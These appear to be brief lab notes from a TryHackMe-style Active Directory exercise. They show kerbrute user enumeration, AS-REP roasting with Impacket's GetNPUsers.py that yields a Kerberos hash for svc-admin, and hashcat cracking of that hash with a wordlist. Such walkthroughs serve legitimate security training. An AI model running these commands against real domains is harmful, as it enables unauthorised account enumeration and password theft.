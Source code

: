 ### kerbrute

good practice to set victim IP to a domain name in `/etc/hosts`

user enumeration

```
kerbrute userenum --dc spookysec.local -d spookysec.local 'userlist.txt' -t 100
```

---

### getNPusers.py
```
python3 /tmp/impacket/examples/GetNPUsers.py -dc-ip spookysec.local thm-ad/  -usersfile u2.txt 
```

we obtain this kerberos hash:

```
$krb5asrep$23$svc-admin@THM-AD:640b2ef8c30934a79586ffcb60934d54$df250ebd2428bb747ecab7428f529ea5257071f3468336df751f3bfa3717bc5c050c09164303da9a373b28cded6abc4e6ffe583f7e9908d848332896244572715bf4818da2efb07ee17c172d140f224d44eac2d4583bb948cbecdf5ded077e7e5291e7f6e82b2079dd2df785ceb2c2a7fdc8c9b370741f07d84ff684d0f3639055a45bd414074a51f693f0f104ba6cbc865f574f9955aea1a5a1773defa9d88642ed16e520808c7cd3dd040c973f746c2f6a5281c575423283a7ab4eb941eba210eda1e6a06c952a8509105ee73d3ca2ece40912ab4191eeb1b91e8fb847b64465236e43e056db6e86
```

---

### hashcat
```
hashcat -a 0 -m 18200 crack.txt /usr/share/wordlists/rockyou.txt
```
